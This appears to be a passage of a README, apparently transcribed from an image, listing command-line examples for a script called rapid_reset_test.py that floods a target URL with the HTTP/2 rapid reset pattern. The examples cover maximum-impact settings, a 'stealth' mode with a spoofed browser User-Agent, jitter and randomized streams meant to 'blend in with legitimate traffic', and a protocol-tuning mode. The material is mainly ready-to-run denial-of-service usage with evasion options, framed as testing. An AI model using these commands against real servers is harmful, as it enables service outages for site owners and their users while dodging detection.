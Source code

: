 ### Example 1: Maximum Impact Testing
```bash
python3 rapid_reset_test.py https://target.com \
    --connections 50 \
    --requests 1000 \
    --delay 0 \
    --pattern rapid_reset \
    --track-latency \
    --output json
```
**Purpose:** Test maximum server load capacity

### Example 2: Stealth Testing
```bash
python3 rapid_reset_test.py https://target.com \
    --pattern burst_reset \
    --burst-size 5 \
    --burst-delay 2.0 \
    --custom-headers "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" \
    --jitter 0.3 \
    --randomize-streams
```
**Purpose:** Blend in with legitimate traffic

### Example 3: Protocol-Specific Testing
```bash
python3 rapid_reset_test.py https://target.com \
    --window-size 32768 \
    --frame-size 32768 \
    --header-table-size 8192 \
    --enable-push \
    --priority-frames \
    --rst-error-code 2
```
**Purpose:** Test specific HTTP/2 configurations

### Example 4: Comprehensive Analysis
```bash
python3 rapid_reset_test.py https://target.com \
    --pattern mixed_pattern \
    --connections 10 \
    --requests 200 \
    --track-latency \
    --track-responses \
    --monitor-memory \
    --verbose \
    --debug \
    --log-file analysis.log \
    --output csv
```
**Purpose:** Complete attack analysis with full monitoring
